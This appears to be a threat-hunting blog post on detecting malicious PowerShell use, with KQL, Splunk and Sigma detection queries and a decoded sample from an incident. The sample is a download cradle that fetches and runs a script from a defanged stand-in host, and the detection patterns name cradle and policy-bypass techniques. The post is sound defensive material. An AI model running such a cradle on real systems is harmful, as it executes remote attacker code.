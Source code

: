 ```yaml
---
layout: post
title: "Hunting Suspicious PowerShell Execution Patterns"
date: 2025-10-23
categories: threat-hunting powershell detection
tags: [powershell, windows, detection-engineering, sigma]
---
```


## Overview

PowerShell remains one of the most abused tools by adversaries for initial access, lateral movement, and execution. This post explores techniques for hunting suspicious PowerShell execution patterns in your environment.

## The Threat

Adversaries frequently use PowerShell because it's:
- **Pre-installed** on Windows systems
- **Highly versatile** for interacting with Windows APIs
- **Often trusted** by security controls
- **Capable of memory-only execution** (fileless attacks)

### Common Attack Patterns

1. **Encoded Commands** - Base64 encoding to evade detection
2. **Download Cradles** - Downloading and executing remote payloads
3. **Bypass Execution Policy** - `-ExecutionPolicy Bypass`
4. **Hidden Windows** - `-WindowStyle Hidden`

## Hunting Techniques

### 1. Identify Encoded PowerShell Commands

Look for PowerShell executions with the `-EncodedCommand` or `-enc` parameter:

```kusto
DeviceProcessEvents
| where Timestamp > ago(7d)
| where FileName =~ "powershell.exe" or FileName =~ "pwsh.exe"
| where ProcessCommandLine contains "-enc"
    or ProcessCommandLine contains "-encodedcommand"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
| order by Timestamp desc
```

### 2. Detect Download Cradles

Common download methods used by attackers:

```powershell
# Suspicious patterns to hunt for:
# 1. Net.WebClient
# 2. Invoke-WebRequest with IEX
# 3. Invoke-RestMethod with IEX
# 4. Start-BitsTransfer
```

**Detection Query (Splunk SPL):**

```spl
index=windows sourcetype=WinEventLog:Security EventCode=4688
| where CommandLine LIKE "%Invoke-WebRequest%" OR
        CommandLine LIKE "%Net.WebClient%" OR
        CommandLine LIKE "%DownloadString%" OR
        CommandLine LIKE "%DownloadFile%"
| where CommandLine LIKE "%IEX%" OR CommandLine LIKE "%Invoke-Expression%"
| table _time, ComputerName, User, CommandLine
```

### 3. Hunt for Execution Policy Bypasses

```yaml
# Sigma Rule Example
title: PowerShell Execution Policy Bypass
status: experimental
description: Detects PowerShell execution with policy bypass
references:
    - https://attack.mitre.org/techniques/T1059/001/
tags:
    - attack.execution
    - attack.t1059.001
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
        CommandLine|contains:
            - '-ExecutionPolicy Bypass'
            - '-ep bypass'
            - '-exec bypass'
    condition: selection
falsepositives:
    - Legitimate administrative scripts
    - Software deployment tools
level: medium
```

## Analysis Findings

During a recent hunt, I identified 23 instances of encoded PowerShell across 12 hosts:

| Host | Count | Pattern | Verdict |
|------|-------|---------|---------|
| WKS-001 | 8 | Encoded + Hidden Window | **Malicious** |
| WKS-042 | 5 | Download Cradle + IEX | **Malicious** |
| SRV-023 | 10 | Legitimate Admin Script | Benign |

### Decoded Malicious Sample

The suspicious command from WKS-001 decoded to:

```powershell
IEX (New-Object Net.WebClient).DownloadString('hxxp://malicious-domain[.]com/payload.ps1')
```

This is a classic download cradle fetching a second-stage payload.

## Detection Recommendations

1. **Enable PowerShell Script Block Logging** (Event ID 4104)
2. **Enable Module Logging** (Event ID 4103)
3. **Deploy the following detection rules:**
   - Monitor encoded commands
   - Flag execution policy bypasses
   - Alert on download cradles with IEX
4. **Baseline normal PowerShell usage** in your environment

## MITRE ATT&CK Mapping

- **T1059.001** - Command and Scripting Interpreter: PowerShell
- **T1027** - Obfuscated Files or Information
- **T1105** - Ingress Tool Transfer
- **T1218** - System Binary Proxy Execution

## Conclusion

PowerShell abuse continues to be a reliable indicator of compromise. By implementing comprehensive logging and deploying targeted detections, defenders can effectively hunt for malicious PowerShell activity.

**Key Takeaway:** Don't just block PowerShell - understand normal usage patterns and hunt for anomalies.

## References

- [MITRE ATT&CK - PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- [Microsoft - PowerShell Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging)
- [FireEye - PowerShell Tradecraft](https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html)

---

*Happy Hunting!*
